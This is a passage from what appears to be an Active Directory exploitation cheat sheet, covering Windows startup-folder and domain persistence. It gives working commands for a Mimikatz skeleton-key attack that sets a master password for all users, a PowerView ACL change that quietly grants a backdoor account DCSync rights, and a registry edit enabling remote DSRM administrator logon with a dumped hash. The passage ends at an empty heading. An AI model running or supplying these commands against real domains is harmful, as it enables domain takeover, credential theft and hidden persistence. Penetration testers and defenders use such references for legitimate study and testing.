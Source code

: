 Or in the global startup folder, requires administrative privileges but will trigger as SYSTEM on boot _and_ in a user context whenever any user signs in:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Plaintext

### Domain Persistence <a href="#domain-persistence" id="domain-persistence"></a>

Must be run with DA privileges.

#### Mimikatz skeleton key attack <a href="#mimikatz-skeleton-key-attack" id="mimikatz-skeleton-key-attack"></a>

Run from DC. Enables password “mimikatz” for all users. 🚩

```
privilege::debug
misc::skeleton
```

Plaintext

#### Grant specific user DCSync rights with PowerView <a href="#grant-specific-user-dcsync-rights-with-powerview" id="grant-specific-user-dcsync-rights-with-powerview"></a>

Gives a user of your choosing the rights to DCSync at any time. May evade detection in some setups.

```powershell
Add-ObjectACL -TargetDistinguishedName "dc=targetdomain,dc=com" -PrincipalSamAccountName BackdoorUser -Rights DCSync
```

PowerShell

#### Domain Controller DSRM admin <a href="#domain-controller-dsrm-admin" id="domain-controller-dsrm-admin"></a>

The DSRM admin is the local administrator account of the DC. Remote logon needs to be enabled first.

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

PowerShell

Now we can login remotely using the local admin hash dumped on the DC before (with `lsadump::sam`, see [‘Dumping secrets with Mimikatz’](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#dumping-secrets-with-mimikatz) below). Use e.g. ‘overpass-the-hash’ to get a session (see [‘Mimikatz’](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#mimikatz) above).

#### Modifying security descriptors for remote WMI access <a href="#modifying-security-descriptors-for-remote-wmi-access" id="modifying-security-descriptors-for-remote-wmi-access"></a>

